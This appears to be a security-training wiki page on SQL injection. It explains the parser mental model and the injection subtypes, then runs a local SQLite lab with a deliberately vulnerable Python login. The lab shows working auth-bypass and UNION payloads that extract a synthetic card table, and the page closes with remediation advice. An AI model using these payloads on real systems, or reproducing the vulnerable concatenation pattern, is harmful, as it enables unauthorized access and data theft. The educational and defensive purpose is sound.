

# SQL Injection

> [!warning] Authorized validation only
> Run the lab below only against the local synthetic database you build here. The techniques prove parser confusion with canary values; they do not authorize extraction, destructive statements, persistence, or access to any production data.

## Parent Learning Order
SQL Injection -> NoSQL Injection -> ORM Injection -> Operating System Command Injection -> Server-Side Template Injection -> LDAP Injection -> XPath Injection -> CRLF Injection -> SSI Injection

## Crook — The Mental Model

SQL injection is a failure to preserve the boundary between **SQL grammar** and **application data**. A database never executes a string directly. Its frontend decodes the client character set, tokenizes keywords, identifiers, operators, literals, and comments, parses those tokens into an abstract syntax tree (AST), resolves names and types, and only then executes. When an application builds query text by *concatenating an untrusted value*, that value enters the lexer **before the AST exists**. A quote can close a literal, an operator can add a predicate, and a comment token can delete the developer's intended suffix.

```text
source = "SELECT id,name FROM products WHERE id='" + input + "' AND tenant_id=?"
```

For `input = 42` the predicate is `AND(EQUAL(id,"42"), EQUAL(tenant_id,$1))`. For `input = 42' AND 1=2-- ` the parser instead receives a closed string, a second Boolean expression, and a comment — the AST changed before binding. This is why "the value contains only digits" or "we escaped one quote" are unreliable defences: the real question is whether untrusted bytes can *become syntax* after every decoding stage.

**Prepared statements** fix value-context injection because the SQL text is parsed first and placeholders become typed value nodes; the bound value is never re-lexed as query text. Parameters cannot represent table names, columns, sort direction, or operators, so dynamic identifiers need a fixed allow-map (`sort=name -> products.name`), never concatenation.

## Operator — The Subtypes as One Root Cause

Every observable form is the same defect seen through a different channel:

| Subtype | Oracle it creates | When you reach for it |
|---|---|---|
| **Error-based** | Engine returns a lexer/type/conversion diagnostic | Verbose errors leak to the client |
| **UNION** | Second result set merged into the first | Output is reflected and column count/types line up |
| **Boolean-blind** | One-bit true/false from a stable response feature | No output, no errors, but behaviour differs |
| **Time-blind** | Conditional delay (`pg_sleep`, `SLEEP`, `WAITFOR`) | Output *and* errors hidden |
| **Stacked** | A second full statement runs | Driver + DB allow multiple statements |
| **Out-of-band** | DB-initiated DNS/HTTP resolves a marker | No in-band oracle; egress allowed (needs explicit approval) |

Dialect details decide what works: MySQL accepts `#` and `-- ` comments and `SLEEP`; PostgreSQL uses `--` and `pg_sleep`; SQL Server uses `WAITFOR DELAY`; Oracle references `DUAL`; **SQLite has no sleep primitive** and stores its schema in `sqlite_master`. Always record the product and driver version in a finding — an "equivalent" payload produces a different AST in another dialect.



The **paired requests** are the proof. One malformed response can be an ordinary bug; a repeatable true/false relationship demonstrates that input controls SQL semantics. Vary only the predicate; hold headers, nonce discipline, and sample count constant.

## Root — Runnable Lab (one machine, SQLite + Python)

This lab runs on any machine with `python3` and `sqlite3` — no server, no network. It builds a deliberately vulnerable login that concatenates SQL, then walks auth-bypass, UNION exfiltration, a deliberate parser failure, and teardown.

**Step 1 — build the vulnerable app and synthetic data.**

```python
# vuln_login.py
import sqlite3, sys
db = sqlite3.connect("shop.db")
# VULNERABLE ON PURPOSE: string-concatenated SQL (never do this in production)
q = ("SELECT id, username, role FROM users WHERE username = '"
     + sys.argv[1] + "' AND password = '" + sys.argv[2] + "'")
print("QUERY:", q)
try:
    rows = db.execute(q).fetchall()
except sqlite3.OperationalError as e:
    print("SQL ERROR:", e); sys.exit(2)
print("LOGIN OK ->", rows) if rows else print("LOGIN FAILED")
```

```bash
sqlite3 shop.db "CREATE TABLE users(id INTEGER PRIMARY KEY, username TEXT, password TEXT, role TEXT);
INSERT INTO users(username,password,role) VALUES('alice','wonderland','user'),('admin','S3cr3t!','admin');
CREATE TABLE cards(id INTEGER, pan TEXT);
INSERT INTO cards VALUES(1,'4111-1111-1111-1111');"
```

**Step 2 — baseline: valid and invalid logins behave normally.**

```console
$ python3 vuln_login.py alice wonderland
QUERY: SELECT id, username, role FROM users WHERE username = 'alice' AND password = 'wonderland'
LOGIN OK -> [(1, 'alice', 'user')]
$ python3 vuln_login.py alice wrongpass
QUERY: SELECT id, username, role FROM users WHERE username = 'alice' AND password = 'wrongpass'
LOGIN FAILED
```

**Step 3 — authentication bypass.** The username `admin' -- ` closes the string and comments out the password check.

```console
$ python3 vuln_login.py "admin' -- " "anything"
QUERY: SELECT id, username, role FROM users WHERE username = 'admin' -- ' AND password = 'anything'
LOGIN OK -> [(2, 'admin', 'admin')]
```

We authenticated as `admin` with no password. Read the printed `QUERY`: everything after `-- ` is a comment, so `AND password = ...` never executes.

**Step 4 — UNION exfiltration across a table the query never named.** The login `SELECT` has three columns, so a `UNION SELECT id,pan,'x' FROM cards` merges credit-card rows into the result shape.

```console
$ python3 vuln_login.py "zzz' UNION SELECT id,pan,'x' FROM cards -- " "x"
QUERY: SELECT id, username, role FROM users WHERE username = 'zzz' UNION SELECT id,pan,'x' FROM cards -- ' AND password = 'x'
LOGIN OK -> [(1, '4111-1111-1111-1111', 'x')]
```

The synthetic PAN surfaced in the `username` column. UNION works only because the column count matched — three in, three out.

**Step 5 — deliberate failure (this is the lesson).** A benign name containing an apostrophe breaks the *attacker's own* injected syntax, exactly as it breaks a naive payload:

```console
$ python3 vuln_login.py "o'brien" "x"
QUERY: SELECT id, username, role FROM users WHERE username = 'o'brien' AND password = 'x'
SQL ERROR: near "brien": syntax error
```

The lone quote turned `o` into a closed literal and left `brien'...` as stray tokens. This is why error-based detection exists — and why real payloads carefully balance or comment out quotes.

**Step 6 — verified cleanup.**

```console
$ rm -f shop.db && echo "removed shop.db"
removed shop.db
$ sqlite3 shop.db "SELECT * FROM users;"
Error: in prepare, no such table: users
```

The "no such table" error on a freshly auto-created empty file confirms the seeded state is gone.

**What you should now be able to do:** read a concatenated query, predict how a quote/comment/UNION rewrites its AST, prove control with a canary instead of a data dump, and recognise the parser error that a lone quote produces.

## Remediation & Evidence

Fix at the value boundary: **parameterized statements everywhere**, fixed allow-maps for identifiers, least-privilege DB accounts, generic client errors (keep detail in restricted telemetry), and regression tests asserting that malicious strings stay literal data. A WAF (OWASP CRS `942xxx`) is a compensating control, not root-cause closure. An evidence package names the baseline, true/false controls, reconstructed query, dialect and driver, request IDs, and the precise stop point — distinguishing **demonstrated behaviour** from **plausible escalation**.

## Crook → Operator → Root Checkpoint

- **Crook:** Why does `admin' -- ` log you in, and why can't a parameterized query be tricked the same way?
- **Operator:** Given a blind endpoint with no errors and no reflected output, which subtype do you choose, and what makes your result *proof* rather than a coincidence?
- **Root:** Step 4's UNION needed exactly three columns. Explain how you'd determine the column count on a real target without seeing the source, and why a type mismatch in one column still leaks information.

---
> 🔼 Up: [[Web Injection Testing]]
